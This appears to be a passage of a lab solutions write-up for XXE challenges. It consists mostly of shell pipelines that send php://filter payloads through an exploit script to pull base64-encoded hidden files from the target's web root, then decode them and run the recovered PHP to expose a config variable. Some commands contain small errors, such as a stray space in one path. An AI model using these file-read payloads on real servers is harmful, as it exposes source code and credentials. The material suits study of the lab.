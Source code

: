 De-obfuscate the $config variable and execute the php script:
```bash
echo 'var_dump($config);' >> whaat.php | php whaat.php
```

Testing command:
```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www /3/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g' \
| base64 -d > whaat.php

echo 'var_dump($config);' >> whaat.php | php whaat.php
```

### Solutions - Lab #4

A png file contains the solution:

*Do you like ASCII? I do!*
Exploitation steps

Download the base64 encoded the content of .letmepass:
```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www/4/.letmepass.php
```

Extract the content from the result:
```bash
[Step 1] | gawk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }'
```

Remove the JSON escaping characters:
```bash
[Steps 1|2] | sed 's/\\\//\//g'
```

Base64 decode and store result within a file:
```bash
[Steps 1|2|3] | base64 -d > wohoo.png

OR

[Steps 1|2|3] | base64 -D > wohoo.png
```

- Open the file

Testing command:
```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www/4/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g' \
| base64 -d > wohoo.png

open wohoo.png
```
